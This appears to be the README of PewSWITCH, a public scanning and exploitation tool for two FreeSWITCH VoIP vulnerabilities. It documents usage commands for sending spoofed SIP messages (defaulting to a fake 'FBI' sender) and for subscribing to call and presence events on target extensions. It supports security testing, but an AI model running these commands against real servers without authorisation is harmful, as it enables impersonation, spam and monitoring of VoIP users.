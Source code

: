 # PewSWITCH
A scanning and exploitation toolkit for CVE-2021-37624 and CVE-2021-41157 in FreeSWITCH.

> Related blog: https://0xinfection.github.io/posts/analyzing-freeswitch-vulns/

## Usage
The help statement of the tool is as below:
```groovy
$ ./pewswitch --help

     ___    .        ____       _ __      __
    / _ \___|\    __/ __/|   __(_) /_____/ /
   / ___/ -_) |/|/ /\ \| |/|/ / / __/ __/ _ \
  /_/   \__/|__,__/___/|__,__/_/\__/\__/_//_/  v0.1

       "where we pew pew pew freeswitch"

Usage of ./pewswitch:
  -cve string
        Specify a specific CVE to scan. Both vulns are tested by default.
  -delay int
        Delay in seconds between subsequent requests. (default 0)
  -events string
        Comma-separated list of events to be subscribed to. All events are monitored by default.
  -expires int
        Maximum value of the 'Expires' header for SUBSCRIBE requests. (default 60)
  -ext-file string
        Specify a file containing extensions instead of '-exts'.
  -exts string
        Comma separated list of extensions to scan.
  -msg-file string
        Specify a CSV file containing messages to be sent (if found vulnerable to CVE-2021-37624).
  -out-dir string
        Output directory to write the results to. (default "./pewswitch-results/")
  -out-format string
        Output format type of the results. Can be either 'json' or 'csv'. (default "json")
  -threads int
        Number of threads to use while scanning. (default 2)
  -user-agent string
        Custom user-agent string to use. (default "pewswitch/0.1")
```

#### Scanning for a specific vulnerability
By default the tool scans for both vulnerabilites. If you want to test for a specific vulnerability, you can use the `-cve` flag to test for a specific vulnerability.

Example:
```groovy
./pewswitch -cve 'cve-2021-37624' -exts 1000 freeserver.voip.com
```

#### Specifying extensions
To specify extensions, you can choose either of the methods:
- Specify a comma separated list of extensions via the `-exts` argument.

    Example:
    ```powershell
    ./pewswitch -exts 1000,1001 freeserver.voip.com freeserver1.voip.com:5060
    ```
    > This will make the tool to test for combinations of pairs for each extension with every host. So the end targets that will be tested in the above command are: `1000@freeserver.voip.com`, `1001@freeserver.voip.com`, `1000@freeserver1.voip.com:5060` and `1001@freeserver1.voip.com:5060`.

- Specify a file containing extensions. Note that when using a file, you need to specify both user and host. This is especially useful when you have to test specific extensions on specific servers. An example of such a file (e.g. `extensions.txt`) could look like this:
    ```
    1000@freeserver.voip.com
    1001@freeserver1.voip.com:5060
    1002@freeserver01.voip.com:5660
    ...
    ```

    Example:
    ```groovy
    ./pewswitch -ext-file extensions.txt
    ```

Note that if any port is not specified with the host, port 5060 will be used by default as the destination port.

### Output
The tool can output in 2 different formats, namely JSON and CSV. The default output format is JSON. Output format can be changed using the `-out-format` switch.

Example:
```groovy
./pewswitch -exts 1000 -out-format csv freeserver.voip.com 
```

The destination output directory can be changed using the `-out-dir` argument. By default the output directory is `./pewswitch-results/` which is created in the current working directory while running the tool.

Example:
```groovy
./pewswitch -ext-file extensions.txt -out-dir /tmp
```

### Request Specific Settings
There are some additional vulnerability/message specific settings in the tool that allows customization of requests during exploitation.

#### MESSAGE requests
If a server is found _vulnerable_ to CVE-2021-37624, by default a sample message from name `FBI` and number `022-324-3000` is sent to the target extension. The contents of the message looks like this: `FBI here. Open your door!`

This behaviour can be changed by making use of the `-msg-file` argument. This accepts a CSV file containing the name of the sender, the phone number and lastly the message contents to be sent. An example of such a file is [messages-sample.csv](messages-sample.csv).
```
sender_name,sender_phone,message
FBI,022-324-3000,FBI here. Open your door!
0xInfection,000-000-0000,Hi. Just confirming the vulnerability.
SPAMMY SALESMAN,BAD-GUY-9999,BUY MY STUFF!
```
Example:
```groovy
./pewswitch -cve 'cve-2021-27624' -msg-file messages-sample.csv -exts 1000 freeserver.voip.com 
```

#### SUBSCRIBE requests
By default, the tool sends SUBSCRIBE requests with a `Expires` header set at 60 seconds. It is for the same time-frame, that the tool will continue to listen for NOTIFY messages from the server. The value can be changed by making use of the `-expires` flag. 

Example:
```groovy
./pewswitch -expires 600 -ext-file extensions.txt
```

The tool also monitors for NOTIFY messages by subscribing to *__all__* events. A list of all events is below:
- `talk`
- `hold`
- `conference`
- `as-feature-event`
- `dialog`
- `line-seize`
- `call-info`
- `sla`
- `include-session-description`
- `presence`
- `presence.winfo`
- `message-summary`
- `refer`

This behaviour can be changed by the `-events` flag which takes a comma separated list of events to monitor. Example:
```groovy
./pewswitch -cve 'cve-2021-41157' -events message-summary,presence -exts 1000,1002 freeserver.voip.com
```

### Setup
You can make use of the pre-built binaries from the [Releases](https://github.com/0xInfection/PewSWITCH/releases) section. Or, if you prefer to compile the code yourself, you'll need Go > 1.15. To build the tool, you can run `go build` which will give you a binary to run.

### Version and License
The tool is available under MIT License. Feel free to do whatever you want to do with it. :)

Currently, PewSWITCH is at v0.1.
